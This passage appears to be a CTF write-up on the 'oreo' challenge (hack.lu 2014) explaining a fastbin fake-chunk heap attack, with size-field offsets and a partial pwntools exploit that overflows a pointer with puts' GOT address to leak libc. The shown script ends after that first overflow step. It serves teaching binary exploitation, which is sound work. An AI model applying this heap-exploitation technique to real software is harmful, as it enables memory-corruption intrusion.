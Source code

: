 For the setup for the chunks, we need to set the size value for the chunks. A quick refresher, the size is the first 4 bytes (8 bytes for x64 systems) before the actual content of the chunk. There are three requirements for what this value can be for the first chunks. The first is that it has to be the same size as the size malloc needs, when you are actually trying to get malloc to return the fake chunk. Keep in mind, this includes the heap metadata with the chunk, so it will be bigger than the size you pass malloc. In `x86` systems, the heap metadata takes up `0x8` bytes, and in `x64` systems the heap metadata takes up `0x10` bytes. In addition to that, malloc will just round certain sizes up. In this binary, we can see that rifles sizes are `0x41` bytes big (the `0x1` is from the previous in use bit), although we only requested `0x30` bytes of space.

The second requirement is that the chunk sizes must be fastbin size. Since we are trying to get this chunk in the fastbin, it's a bit of a given. The third requirement is that the size values have to be placed at offsets that would match actual chunks that are adjacent in memory. So if your first size value is `0x40`, assume that the second chunk's metadata starts `0x40` bytes after the start of the content section of the first chunk. Also the sizes of the two chunks don't need to be the same (however the second chunk's size still needs to be fastbin size). Also you don't need to set the previous chunk size in the heap metadata.

Now for executing this attack on this ctf challenge. Our goal will be to allocate a chunk at `0x804a2a8`. For that we will need to set a fake size at `0x804a2a4`. This matches up to the bss integer `riflesCount`. Since our only real control over this is making new files, we will need to allocat `0x41` rifles to set the size to `0x41` (since that is the actual size of a rifle chunk). With that, it will expect our second chunk at `0x3c + 0x4 = 0x40` bytes away from the first size value. We have the `0x3c` bytes from the first chunk which is `0x40` bytes big (the first `0x4` bytes is the previous freed chunk size), and `0x4` bytes from the next chunk's previous free chunk size.

## Exploit

Putting it all together, we have the following exploit. This exploit was ran on Ubuntu 16.0 :

```
# This exploit is based off of https://dangokyo.me/2017/12/04/hack-lu-ctf-2014-pwn-oreo-write-up/

from pwn import *

target = process('./oreo', env={"LD_PRELOAD":"./libc-2.23.so"})
gdb.attach(target)
elf = ELF('oreo')
libc = ELF("libc-2.23.so")

def addRifle(name, desc):
  target.sendline('1')
  target.sendline(name)
  target.sendline(desc)

def leakLibc():
  target.sendline('2')
  print target.recvuntil("Description: ")
  print target.recvuntil("Description: ")
  leak = target.recvline()
  puts = u32(leak[0:4])
  libc_base = puts - libc.symbols['puts']
  return libc_base

def orderRifles():
  target.sendline("3")

def leaveMessage(content):
  target.sendline("4")
  target.sendline(content)

# First commence the initial overflow of the previous gun ptr with the got address of puts for the infoleak
addRifle('0'*0x1b + p32(elf.got['puts']), "15935728")

```